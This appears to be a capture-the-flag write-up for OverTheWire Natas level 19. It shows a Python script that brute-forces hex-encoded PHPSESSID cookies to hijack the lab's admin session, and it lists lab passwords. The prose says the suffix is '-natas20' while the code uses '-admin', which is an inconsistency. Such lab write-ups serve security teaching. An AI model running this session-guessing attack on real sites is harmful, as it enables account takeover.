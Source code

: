 ### Level 19: Session Management Pt 2

- **Commands/Tools Introduced:** Session Management, Weak Session Tokens

#### Solution Outline:
1. **Understanding the Challenge:**
   The challenge is like the previous one, but this time the session ID is not sequential. We need to find a way to generate the session ID.

2. **Exploiting the Vulnerability:**
   Once, we capture the session ID, we notice that it is encoded in ASCII. We use the decoder in Burp Suite to decode the session ID and see that the cookie is a number suffixed by "-natas20". Here, natas20 is the username.

3. **Automating the Process:**
    We change the script to encode the session ID in ASCII and append "-natas20" to it.
    ```python
    import requests

    target = "http://natas19.natas.labs.overthewire.org"
    auth = ("natas19", "tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr")
    params = {"username": "admin", "password": "something"}

    max_s_id = 640
    s_id = 1
    while s_id <= max_s_id:
        # Suffix "-natas20" and encode to ASCII
        session_id = f"{s_id}-admin"

        print("Trying with PHPSESSID = " + session_id)
        cookies = {"PHPSESSID": session_id.encode("ascii").hex()}
        r = requests.get(target, auth=auth, params=params, cookies=cookies)

        if "regular user" not in r.text:
            print("Found! Session ID: " + session_id)
            print(r.text)
            break
        s_id += 1

    ```

#### Password: `p5mCvP7GS2K6Bmt3gqhM2Fc1A5T8MVyw`

![Level 19 Progress](images/natas19.png)
